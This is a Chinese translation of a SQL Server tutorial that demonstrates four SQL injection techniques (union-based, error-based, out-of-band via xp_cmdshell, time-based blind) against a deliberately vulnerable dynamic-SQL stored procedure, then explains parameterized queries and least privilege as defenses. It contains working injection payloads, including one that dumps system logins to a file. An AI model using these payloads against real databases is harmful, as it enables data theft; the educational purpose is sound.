


# 窃取数据的 4 种 SQL 注入技术

> 原文：<https://dev.to/bertwagner/4-sql-injection-techniques-for-stealing-data-1fo0>

[https://www.youtube.com/embed/UMJV3OpjsoM](https://www.youtube.com/embed/UMJV3OpjsoM)

<figcaption>[Watch this week’s episode on YouTube](https://youtu.be/UMJV3OpjsoM)</figcaption>

我并不主张你开始利用 SQL 注入窃取别人的数据。

但是，我确实认为您应该熟悉各种 SQL 注入技术，以便您可以更好地准备防止它们在您自己的查询中发生。

本文的其余部分将介绍四种用于从 SQLServer 中提取信息的常用技术，以及防止这些技术出现的简单解决方案。

我们将直接在 SQL Server 中查看所有这些技术，但请注意，所有这些信息也可能从应用程序前端获得。

## 联盟攻击

对于黑客来说，从易受注入攻击的查询中检索额外数据的最简单方法可能是通过基于联合的攻击。

基于 UNION 的注入攻击将 UNION 或 UNION ALL 语句添加到原始存储过程查询中，有效地返回第二个查询请求的任何数据。

假设我们有一个存储过程，它返回传入的@Username 值的用户信息:

```
-- Create our sample table data
CREATE TABLE dbo.Users
(
    Id int IDENTITY(1,1),
    Username NVARCHAR(100),
    FirstName NVARCHAR(100),
    LastName NVARCHAR(100)
);
GO
INSERT INTO dbo.Users VALUES ('BDubs','Bert','Wagner');
INSERT INTO dbo.Users VALUES ('JaneDough', 'Jane', 'Doe');

SELECT * FROM dbo.Users;

-- Create our procedure to retrieve name information
CREATE PROCEDURE dbo.USP_GetUserFullName
    @Username NVARCHAR(100)
AS
BEGIN
    DECLARE @Query NVARCHAR(MAX) = N'
        SELECT
            UserName,
            FirstName,
            LastName
        FROM
            dbo.Users
        WHERE
            Username = ''' + @UserName + N'''';
    EXEC(@Query);
END 
```

这个查询写得很差，很容易注入:

```
-- No injection
EXEC dbo.USP_GetUserFullName @Username = N'BDubs'

-- Injection, returns all rows
EXEC dbo.USP_GetUserFullName @Username = N'BDubs'' OR 1=1--'; 
```

让我们假设我们是一个邪恶的黑客，想要确定服务器上有哪些 SQL Server 登录可供我们使用。我们可以使用基于联合的注入攻击来查询 sys.syslogins，以获取这些信息并将其作为原始查询的一部分返回:

```
EXEC dbo.USP_GetUserFullName @Username = N'BDubs'' UNION ALL SELECT loginname,null,null FROM master.sys.syslogins;--'; 
```

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--fwE8p6Q2--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://bertwagner.com/wp-content/uploads/2018/11/image.png)

这种基于联合的攻击只是将另一个查询的结果连接到我们的原始数据行。

## 基于错误的攻击

假设基于联合的技术不起作用，或者我们需要一种替代方法来确定当前登录的帐户。

另一种选择是让应用程序通过错误输出来揭示关于数据库的信息。

我们可以传入一个已知会产生错误的查询，在这种情况下，将字符串转换为 INT:

```
EXEC dbo.USP_GetUserFullName @Username = N'''; SELECT CAST(SYSTEM_USER AS INT);--'; 
```

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--HgxhmW70--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://bertwagner.com/wp-content/uploads/2018/11/image-1.png)

瞧啊。如果应用程序没有正确处理错误消息，它会方便地将系统登录显示为错误消息的一部分。

## 带外交付

我们研究的前两种技术是**入站**攻击:也就是说，我们使用可注入查询直接向我们返回数据。

但是，如果有足够的安全性来防止意外数据直接返回到我们的应用程序中，该怎么办呢？我们必须通过其他方式从服务器上获取我们想要的数据。

这个例子使用 xp_cmdshell 将我们的数据写到一个文本文件中，但是我们也可以很容易地用它给自己发送一封电子邮件等等…

```
EXEC dbo.USP_GetUserFullName @Username = N'''; EXEC xp_cmdshell ''bcp "SELECT * FROM master.sys.syslogins" queryout "%TEMP%\pwned.txt" -c -T -q --'; 
```

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--JefFwVAC--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://bertwagner.com/wp-content/uploads/2018/11/image-2.png)

## **盲目注射**

一个安全的服务器可能不允许我们直接输出我们想要的数据，但这并不意味着我们不能推断出某些信息。

通常，我们为自己能够编写一致的快速查询感到自豪。但是我们致力于持续快速的执行，这为黑客提供了识别信息的方法，而不需要任何明确的数据输出。

例如，假设我们想猜测当前登录的帐户是否是“sa”。我们可以编写逻辑来检查这一点，并故意减慢可注入查询的执行速度，以确定我们的猜测是否正确:

```
EXEC dbo.USP_GetUserFullName @Username = N'''; if (SELECT SYSTEM_USER) = ''sa'' waitfor delay ''00:00:05'';--'; 
```

如果我们带有预期参数的查询通常以毫秒为单位返回，强制 5 秒钟的延迟将间接告知我们猜测的“sa”帐户名是正确的。

## 保护自己

防止 SQL 注入的最简单的方法是在不必要的时候避免使用动态 SQL。在上面的存储过程示例中，我们没有理由使用动态 SQL——这应该是一个参数化的查询，完全不会受到注入攻击:

```
CREATE PROCEDURE dbo.USP_GetUserFullName
    @Username NVARCHAR(100)
AS
BEGIN
    SELECT
        UserName,
        FirstName,
        LastName
    FROM
        dbo.Users
    WHERE
        Username =  @UserName;
END 
```

如果您必须使用动态 SQL，那么[使用 sp_executesql](https://bertwagner.com/2017/08/29/warning-are-your-queries-vulnerable-to-sql-injection/) 执行您以编程方式构建的查询字符串。该过程将安全地参数化您的输入，并防止发生注入。

最后，确保执行查询的帐户拥有尽可能少的权限。这样，即使您的查询有注入漏洞，攻击者造成的损害也是最小的。如果我们的帐户不能访问某些系统表或系统过程(如 xp_cmdshell ),上面的许多例子都会失败。

这些解决方案不会涵盖所有情况，但它们将涵盖大多数情况，并提高我们保护信息安全的机会。

*感谢阅读。你可能也会喜欢在 Twitter 上关注我。T3】*